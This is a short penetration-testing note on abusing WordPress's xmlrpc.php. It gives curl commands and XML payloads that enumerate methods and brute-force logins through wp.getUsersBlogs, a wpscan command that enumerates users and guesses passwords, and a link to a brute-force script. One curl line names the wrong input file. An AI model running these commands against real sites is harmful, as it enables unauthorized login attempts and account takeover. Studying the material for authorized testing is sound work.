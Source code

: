 **xmlrpc.php** is a file that represents a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism.

#### Risks of xmlrpc.php

1. **Brute Force Attacks**: Attackers can automate login attempts via XML-RPC, bypassing traditional login protections.
2. **DDoS Attacks**: Attackers can exploit XML-RPC to send multiple requests, overloading the server or launching amplified DDoS attacks.
3. **Pingback Amplification**: Malicious pingback requests can be used to reflect traffic to other sites, creating a DDoS attack.
4. **Vulnerabilities**: Older WordPress versions may have exploitable bugs in `xmlrpc.php`, enabling remote code execution (RCE) or other attacks.

#### Attack process
Check if `xmlrpc.php` exists and is active on the target site. Create an XML file named `list_methods.xml` with the following content:

```bash
<?xml version="1.0" encoding="utf-8"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>
```

Use `curl` to send the XML file as a POST request:

```bash
curl -X POST -H "Content-Type: application/xml" --data @rev http://<target_ip>/xmlrpc.php
```

If the file is active, the response will list all supported methods, such as:

- `getUsersBlogs`
- `wp.getCategories`
- `system.multicall`
- `pingback.ping`

Next, create a file named `bruteforce.xml`:

```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param><value><string>admin</string></value></param>
    <param><value><string>password123</string></value></param>
  </params>
</methodCall>
```

Send the payload using `curl`:

```bash
curl -X POST -H "Content-Type: application/xml" --data @bruteforce.xml http://<target_ip>/xmlrpc.php
```

If the response contains valid blog information, the credentials are correct. Automate this process for multiple attempts with tools like `wpscan` or custom scripts.

#### Attack process using WPScan

WPScan simplifies brute force attacks and XML-RPC vulnerability scans.

```bash
wpscan --url http://<target_ip>/ --enumerate u,vp,t --random-agent --passwords /path/to/passwords.txt --usernames /path/to/usernames.txt
```

#### Using Custom Scripts

For fine-grained control, use custom scripts like [kill-xmlrpc](https://github.com/R-kill-9/kill-xmlrpc) to automate brute force or exploitation.